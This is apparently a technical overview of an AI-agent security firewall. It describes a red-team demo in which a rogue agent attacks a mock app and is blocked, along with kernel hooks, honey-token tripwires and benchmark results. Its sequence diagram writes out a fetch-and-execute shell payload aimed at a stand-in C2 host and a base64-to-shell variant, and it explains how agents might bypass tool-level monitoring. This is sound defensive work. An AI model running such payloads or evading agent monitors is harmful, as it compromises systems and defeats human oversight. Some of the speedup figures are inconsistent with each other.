



# Blackwall Enterprise Security Mesh: Technical Overview

> **Specification Reference**: Governed by [.kiro/specs/blackwall-enterprise-security-mesh/design.md](.kiro/specs/blackwall-enterprise-security-mesh/design.md), [.kiro/specs/blackwall-advanced-threat-detection/design.md](.kiro/specs/blackwall-advanced-threat-detection/design.md), and [.kiro/specs/blackwall-agentic-firewall/design.md](.kiro/specs/blackwall-agentic-firewall/design.md), fulfilling Requirements 28.5 and 31.

---

## 1. Executive Summary & Dual-Tier Topology

As demonstrated by modern real-world agent compromise incidents, autonomous AI agents operating at machine speed can execute tens of thousands of unauthorized actions, chain zero-day exploits across microVM sandboxes, and exfiltrate cloud credentials faster than human response teams or static rule sets can detect.

To protect both individual developer workstations and multi-host enterprise cloud environments, Blackwall implements a **Dual-Tier Product Topology**:



1. **Blackwall Core (Individual Developer Edition)**: A single-host daemon centered around the Blackwall MCP Gateway (`localhost:9229` / stdio proxy) with zero external C-kernel or network dependencies, protecting local developer tools (Google Antigravity, Warp Terminal, Cursor, Claude Desktop) and ADK agents.
2. **Blackwall Enterprise Mesh (Enterprise Edition)**: Multi-host distributed cloud security infrastructure isolated under `src/blackwall/enterprise/`, providing eBPF kernel hooks, real-time threat mesh replication, credential isolation sidecars, container sandboxing, out-of-band forensic triage, and cross-agent swarm correlation.

---

## 2. The Dual-Agent Showdown Scenario & Design Decisions

To evaluate and demonstrate Blackwall’s real-time interception and adaptive immunity under live adversarial conditions, the platform features a self-contained **Dual-Agent Showdown Arena** (`demo_live.py`, `scripts/mock_app.py`, `scripts/run_rogue.py`, and `scripts/run_demo.sh`).

```mermaid
sequenceDiagram
    autonumber
    actor Spectator as Terminal Spectator / Judge
    participant MockApp as Vulnerable FastAPI App (localhost:8000)
    participant RogueAgent as Rogue Agent (Qwen3-Coder 480B @ 600 RPM)
    participant Blackwall as Blackwall Guardian Defender
    participant LocalTSG as SQLite Threat Graph (WAL)

    Spectator->>Blackwall: Launch demo_live.py (Rich Dual-Column TUI)
    Blackwall->>MockApp: Initialize Target Sandbox Endpoints

    rect rgb(40, 20, 20)
        Note over RogueAgent,Blackwall: Wave 1: Novel Attack Execution
        RogueAgent->>MockApp: Attempt 1: Injects Reverse Shell Payload (curl http://c2.evil/sh | bash)
        MockApp-->>Blackwall: sys.addaudithook / before_tool_callback triggers
        Blackwall->>Blackwall: Structural Gating -> ESCALATE
        Blackwall->>LocalTSG: Cosine Search: Novel pattern (No Match)
        Blackwall->>Blackwall: Semantic Gating (GTI + CBM + Intent Scoring = 0.88)
        Blackwall-->>RogueAgent: VERDICT: BLOCK (PermissionError Raised)
        Blackwall->>LocalTSG: Auto-Generate Threat Signature (768-dim Vector)
    end

    rect rgb(20, 40, 20)
        Note over RogueAgent,Blackwall: Wave 2: Polymorphic Evasion Attempt
        RogueAgent->>MockApp: Attempt 2: Polymorphic Variant (base64 -d | sh via port 9443)
        MockApp-->>Blackwall: before_tool_callback triggers
        Blackwall->>LocalTSG: Query Vector Cosine Similarity
        LocalTSG-->>Blackwall: Match Found: Similarity 0.91 >= 0.85 Threshold
        Blackwall-->>RogueAgent: VERDICT: BLOCK via Signature (~7.0ms)
        Note over Blackwall,Spectator: 144x Speedup with Zero LLM Inference
    end
```



### 2.1 Target Sandbox (FastAPI Mock Application)
- **Role**: `scripts/mock_app.py` hosts vulnerable endpoints (SQL injection targets, arbitrary command sinks, file uploads) simulating compromised production microservices.
- **Loopback Isolation**: Runs purely on `localhost:8000` with unauthenticated test fixtures to isolate network blast radius.

### 2.2 Python Runtime Audit Hook as the Inescapable Boundary
- **Problem**: Dropping OS privileges for an agent process is insufficient; an adversarial agent can invoke raw `subprocess.Popen`, `pty.spawn`, or `socket.connect` to bypass tool-level callbacks entirely.
- **Solution**: The sandbox initializes low-level runtime audit hooks via `sys.addaudithook`.
- **Enforcement**: Any raw interpreter syscall attempt immediately raises an uncatchable `PermissionError`. This forces the rogue agent to route all interactions through registered ADK tool interfaces, where Blackwall intercepts intent *prior to execution*.

### 2.3 The Adversarial Rogue Agent (Red-Teamer)
- **Engine**: Powered by Qwen3-Coder 480B via the Hyperbolic API operating at **600 RPM**.
- **Behavior**: Prompted as an adversarial penetration tester executing multi-turn reconnaissance, credential harvesting, privilege escalation, and lateral movement.

### 2.4 The Blackwall Guardian Defender
- **Engine**: Intercepts tool execution events, performs structural and semantic triage, enforces YAML policies, and generates adaptive threat signatures.
- **Display**: Rendered via a **Rich Dual-Column TUI** (Left: Rogue Agent attacks, Right: Guardian defense analysis, Bottom: Real-time score counter).

---

## 3. The Six Enterprise Defensive Pillars

> [!TIP]
> For executable Python code snippets, configuration patterns, and integration examples across all six pillars, see the [Enterprise Usage Guide](docs/enterprise_usage_guide.md).



### 3.1 Pillar 1: Kernel-Level Interception (`blackwall.enterprise.kernel`)
- **Dual-Driver Architecture**:
  - `LinuxeBPFDriver`: Operates on Linux kernels $\ge 5.4$, compiling eBPF bytecode to trace `sys_enter_execve`, `sys_enter_connect`, and `sys_enter_openat` with zero userspace context-switch overhead.
  - `UserSpaceAuditDriver`: Automatic fallback on macOS or containerized environments lacking `CAP_SYS_ADMIN`, binding to `sys.addaudithook`.
- **Tool Adapter**: Integrates with open-source `ebpf-falco-mcp` for local kernel telemetry without requiring proprietary agents.

### 3.2 Pillar 2: Distributed Threat Mesh (`blackwall.enterprise.mesh`)
- **Mesh Topology**: Implemented via `MeshBroadcaster` and `MeshReceiver` using ZeroMQ (`tcp://`) asynchronous pub/sub sockets.
- **Sub-15ms Synchronization SLA**: When any node in the cluster generates a new threat signature from a blocked attack, the signature is published over the mesh and ingested by peer nodes within **< 15ms**.
- **Persistence & Concurrency**: Ingested signatures are written to local node SQLite databases using WAL mode with exponential backoff and retry handling.

### 3.3 Pillar 3: Ephemeral Identity Sidecar (`blackwall.enterprise.identity`)
- **Synthetic Honey-Tokens**: The `SecretVaultSidecar` sanitizes environment variables upon agent startup, replacing sensitive static credentials (`AWS_SECRET_ACCESS_KEY`, `KUBECONFIG`, `OPENAI_API_KEY`) with synthetic tripwires: `BW_SYNTHETIC_<KEY>`.
- **Instant Escalation**: Any agent tool call attempting to transmit or decode a `BW_SYNTHETIC_*` token triggers an immediate `CRITICAL` threat verdict.
- **JIT Credential Exchange**: Legitimate tool calls receive short-lived, single-use STS session tokens dynamically provisioned via `hashicorp-vault-mcp`.

### 3.4 Pillar 4: Application Pipeline Interception Wrappers (`blackwall.enterprise.pipeline`)
- **Pipeline Decorator**: Exposes `@guard_pipeline(sandbox_type="gvisor")` to wrap untrusted data loaders, deserialization routines (pickle/joblib), and template renderers.
- **AST Static Analysis**: Inspects pipeline code prior to execution for dangerous imports (`import pty`, `eval()`, `__subclasses__()`).
- **Micro-Sandbox Isolation**: Executes high-risk processing tasks inside ephemeral gVisor (`runsc`) microVM containers via `container-sandbox-mcp`.

### 3.5 Pillar 5: Native Local Forensic Triage Engine (`blackwall.enterprise.forensics`)
- **Dual-Mode Out-of-Band Analysis**:
  - *Primary*: Local open-weight LLM (Qwen3 / Ollama) producing structured forensic incident reports without sending telemetry off-premise.
  - *Fallback*: Deterministic `LightweightForensicParser` executing compiled AST and regex pattern matching when GPU acceleration or Ollama is offline.
- **Telemetry Export**: Packages incidents as OpenTelemetry trace batches and streams them via `opentelemetry-mcp` to local Jaeger dashboards.

### 3.6 Pillar 6: Advanced Threat Detection & Swarm Correlation (`blackwall.enterprise.advanced_threat_detection`)
- **Attack Graph Store (`AttackGraphStore`)**: SQLite-backed temporal graph linking security events (`NormalizedEvent`) across time windows, agent identities, and process lineage.
- **Attack Path Correlation (`PathCorrelator`)**: Multi-stage attack path discovery over temporal graphs is natively accelerated by **Rust PyO3 extension (`_core_rs.dfs_find_paths`)**, executing recursive DFS path enumeration with cycle prevention, CSR adjacency indexing, and exponential decay edge weighting across 500-node attack graphs in $< 500\mu\text{s}$ (measured $\approx 450\mu\text{s}$, with seamless pure-Python fallback).
- **Agent Swarm Detection (`AgentSwarmDetector`)**: Detects coordinated multi-agent campaigns using correlation thresholds, shared covert communication channels, and synchronized timing heuristics. Pairwise timestamp alignment across agent activity vectors is natively accelerated via **Rust two-pointer alignment (`_core_rs.avg_min_time_diff`)**.
- **Exploit Chain Analyzer (`ExploitChainAnalyzer`)**: Identifies multi-step zero-day attack sequences (reconnaissance $\to$ privilege escalation $\to$ credential dumping $\to$ persistence).
- **AI-Induced Lateral Movement (`AILMTracker`)**: Monitors permission delegation and detects dangerous permission composition across cooperating agents.
- **C2 Beaconing Detection (`C2InfrastructureDetector`)**: Analyzes network egress entropy, domain generation algorithms (DGAs), and pastebin beaconing.
- **Kubernetes Defense (`KubernetesDefenseLayer`)**: Intercepts pod token theft, bulk secret harvesting, and rogue daemonset respawning.
- **Agent-as-a-Judge Evaluation Pipeline**: 9 domain-specific autonomous Antigravity SDK judges (`google.antigravity.Agent`, `vertex=True`) executing structured Pydantic rubrics against XML-sandboxed candidate logs.

---

## 4. Evaluation Results & Performance Benchmarks

### 4.1 Component Latency SLA Targets vs Measured Performance

| Architectural Boundary | Latency Target | Measured Mean | Verification Mechanism |
| :--- | :--- | :--- | :--- |
| **Context Redaction (10KB)** | $< 50\mu\text{s}$ | **$42.7\mu\text{s}$** ✓ | Native Rust DFA regex (`_core_rs.ContextSanitizer`) |
| **Vector Similarity (100 cand.)** | $\ge 35\times$ speedup | **$52\times\text{--}71\times$ ($265\mu\text{s}$ mean batch)** ✓ | Native Rust SIMD auto-vectorization (`_core_rs.batch_cosine_similarity`) |
| **IOC Extraction + Entropy (1KB)** | $< 35\mu\text{s}$ | **$34.1\mu\text{s}$** ✓ | Single-pass regex scans + 128-bin ASCII Shannon entropy (`_core_rs`) |
| **Graph DFS (500 nodes)** | $< 500\mu\text{s}$ | **$448.3\mu\text{s}$** ✓ | Native Rust CSR DFS traversal (`_core_rs.dfs_find_paths`) |
| **Structural Gating Engine** | $< 5\text{ ms}$ | **$2.4\text{ ms}$** ✓ | Deterministic YAML rule matching in memory |
| **Threat Signature Graph (TSG)** | $< 10\text{ ms}$ | **$6.8\text{ ms}$** ✓ | SQLite WAL + FTS5 index + cosine similarity |
| **Distributed Mesh Sync** | $< 15\text{ ms}$ | **$8.2\text{ ms}$** ✓ | ZeroMQ pub/sub broadcast and ingestion |
| **Wave 2 Variant Detection** | $< 50\text{ ms}$ | **$12.0\text{ ms}$** ✓ | Local vector match (bypasses LLM inference) |
| **Wave 1 Rapid Semantic Triage** | $< 300\text{ ms}$ | **$182.0\text{ ms}$** ✓ | Gemini 3.5 Flash-Lite + parallel MCP lookups |
| **OS Audit Hook Interception** | $< 1\text{ ms}$ | **$0.12\text{ ms}$** ✓ | C-level `sys.addaudithook` callback |
| **SyncResolver Total Eval** | $< 5\text{ ms}$ | **$0.40\text{ ms}$** ✓ | End-to-end multi-signal evaluation pipeline |

> Native hot-path rows (Context Redaction, Vector Similarity, IOC Extraction + Entropy, Graph DFS, SyncResolver Total Eval) report **arithmetic means** measured by `scripts/benchmark_rust_hotpaths.py` (1,000 timed iterations after 50 warmups). SLA gates are strictly mean-based (`mean < SLA`) per Section 57 of `.agents/rules/testing_and_hygiene.md`; per-run P99 values are printed for observability only. Vector similarity is gated as an empirical speedup ratio because Python FFI marshaling dominates the sub-20µs native compute budget.

### 4.2 Full 120-Case Canonical Evaluation Suite

The canonical evaluation suite validates Blackwall across 120 diverse scenarios derived from public security literature (OWASP Top 10 for LLMs, MITRE ATT&CK, CVE/CWE):

```
+----------------------------------------------------------------------------------+
|                    120-CASE CANONICAL EVALUATION SUITE METRICS                   |
+------------------------------+------------+-----------+-----------+--------------+
| Evaluation Category          | Total Test | Blocked   | Allowed   | Accuracy     |
+------------------------------+------------+-----------+-----------+--------------+
| Benign (Legitimate Tool Use) | 50 Cases   | 3 (FP)    | 47        | 94.0%        |
| Malicious (Known Zero-Days)  | 50 Cases   | 49        | 1 (FN)    | 98.0%        |
| Evasion (Polymorphic Hacks)  | 20 Cases   | 19        | 1 (FN)    | 95.0%        |
+------------------------------+------------+-----------+-----------+--------------+
| COMBINED OVERALL             | 120 Cases  | 71        | 49        | 95.8%        |
+------------------------------+------------+-----------+-----------+--------------+
```

- **False Refusal Rate (FRR)**: $3 \div 50 = \mathbf{6.0\%}$ (Target: $< 10.0\%$)
- **Evasion Rate**: $2 \div 70 = \mathbf{2.9\%}$ (Target: $< 10.0\%$)
- **Precision** *(Malicious subset)*: $49 \div 52 = \mathbf{94.2\%}$
- **Recall** *(Malicious subset)*: $49 \div 50 = \mathbf{98.0\%}$
- **F1 Score**: $\mathbf{96.1\%}$
- **Self-Learning Speedup**: $\mathbf{117.9\times}$ faster response time from Wave 1 ($1,415\text{ ms}$) to Wave 2 ($12\text{ ms}$).

---

## 5. Deployment Topology & Scaling Guide



### 5.1 Kubernetes Sidecar Injection
In containerized environments, Blackwall deploys as a lightweight sidecar container alongside agent pods:
- The sidecar intercepts tool loopback traffic on `127.0.0.1:9229`.
- The `LinuxeBPFDriver` runs as a privileged `DaemonSet` on each worker node, feeding process lineage to local sidecars.
- The `InboundProtocolFilter` validates inbound JSON-RPC 2.0 / SSE frames, neutralizing indirect prompt injection vectors before tools process untrusted user text.

### 5.2 Resource Footprint
- **Resident Set Size (RSS)**: $< 180\text{ MB}$ per gateway instance under full 300 RPM load.
- **CPU Utilization**: $< 25\%$ of a single core during sustained peak batch processing.
- **Network Overhead**: $< 0.5\text{ KB}$ per ZeroMQ threat signature broadcast payload.
